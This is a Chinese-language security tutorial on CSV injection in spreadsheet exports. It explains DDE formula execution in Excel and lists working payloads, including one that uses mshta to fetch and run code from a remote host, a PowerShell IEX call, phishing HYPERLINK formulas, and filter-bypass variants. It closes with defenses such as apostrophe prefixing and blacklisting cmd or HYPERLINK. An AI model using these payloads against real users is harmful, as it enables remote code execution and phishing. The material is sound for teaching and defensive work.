# CSV注入漏洞的原理及利用

## 漏洞简介

CSV 注入(CSV Injection）漏洞通常会出现在有导出文件 (.csv/.xls) 功能的网站中。当导出的文件内容可控时，攻击者通常将恶意负载（公式）注入到输入字段中，用户导出文件打开后，EXCEL 会调用本身的动态功能，执行攻击者的恶意代码，从而控制用户计算机。

## 漏洞原理

`=、-、@`这样的符号也会被 excel 解析为公式

DDE 是 Windows 下进程间通信协议，是一种动态数据交换机制，使用 DDE 通讯需要两个 Windows 应用程序，其中一个作为服务器处理信息，另外一个作为客户机从服务器获得信息。DDE 支持 Microsoft Excel，LibreOffice 和 Apache OpenOffice。 Excel、Word、Rtf、Outlook 都可以使用这种机制，根据外部应用的处理结果来更新内容。因此，如果我们制作包含 DDE 公式的 CSV 文件，那么在打开该文件时，Excel 就会尝试执行外部应用。

调用 DDE 需要在`文件->选项->信任中心->信任中心设置->外部内容`中开启：

![image-20240322194314329](img/image-20240322194314329.png)

## 漏洞利用

```
=cmd|'0'!f
=1+cmd|' /C calc'!f
+1+cmd|' /C calc'!f
=HYPERLINK("https://www.baidu.com/")
=HYPERLINK("https://www.baidu.com/","优惠券领取！")
+HYPERLINK("https://www.baidu.com/","优惠券领取！")
=1+cmd|'/c mshta.exe http://192.168.206.128:8080/csv'!f
+1+cmd|'/c mshta.exe http://127.0.0.1'!f

在等于号被过滤时，可以通过运算符+-的方式绕过；
-3+2+cmd |’ /C calc’ !f
参数处输入以下 Payload，%0A被解析，从而后面的数据跳转到下一行
%0A-3+3+cmd|' /C calc'!f
导出文件为 csv 时，若系统在等号=前加了引号’过滤，则可以使用分号绕过，分号可分离前后两部分内容使其分别执行
;-3+3+cmd|' /C calc'!f
其他常用 Payload
@SUM(cmd|'/c calc'!f)
@SUM(1+1)*cmd|' /C calc'!A0
@ABS(cmd|'/c calc'!f)
=wt|'calc'!f
=wt|calc!f
=cmd|'/C powershell IEX(whoami)'!A0
=cmd|'/C whoami'!A0+


```

![image-20240322194948319](img/image-20240322194948319.png)

## 漏洞防御

这种攻击很难缓解，并且从许多漏洞赏金计划中都明确禁止了这种攻击。要对其进行修复，请确保没有任何单元格以下列任何字符开头：

```
等于（“ =”）
加号（“ +”）
减号（“-”）
在 （”@”）
```

开发人员可以在包含此类字符的单元格的开头添加撇号（’），添加撇号（’）会告诉 excel 该单元格不包含公式。

相对完整的防御措施如下：

1）一般的防御手段为：在生成电子表格时，以任何危险符号开头的字段应该以单引号、撇号（'）字符或空格作为前缀，确保单元格不被解释为公式，但存在可能被绕过的风险；

2）更好的防御手段为，根据业务需求控制用户输入为字母数字字符，或黑名单过滤=或-号开头的单元格数据，过滤=(-)cmd或=(-)HYPERLINK或concat等。
97/article/details/124524002